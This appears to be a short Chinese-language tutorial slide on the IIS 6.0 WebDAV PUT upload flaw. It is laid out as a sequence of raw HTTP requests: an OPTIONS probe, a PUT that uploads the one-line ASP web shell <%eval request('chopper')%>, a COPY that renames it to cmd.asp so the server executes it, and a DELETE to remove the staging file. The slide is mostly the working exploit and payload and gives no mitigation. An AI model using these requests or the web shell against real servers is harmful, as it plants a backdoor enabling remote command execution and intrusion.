

IIS6.0 PUT上传原理
WebDAV 基于HTTP1.1协议的通信协议使得HTTP支持PUT MOVE COPY DELETE方法。
1、探测是否存在IIS PUT漏洞：
OPTIONS / HTTP1.1
Host: www.xxx.com

2、上传txt文本文件
PUT /a.txt HTTP1.1
Host：www.xxx.com
Content-Length: 30

<%eval request("chopper")%>
3、通过Move或Copy重名
COPY /a.txt HTTP1.1
Host: www.xxx.com
Destination: http://www.xxx.com/cmd.asp

4、删除
DELETE /a.txt HTTP1.1
Host: www.xxx.com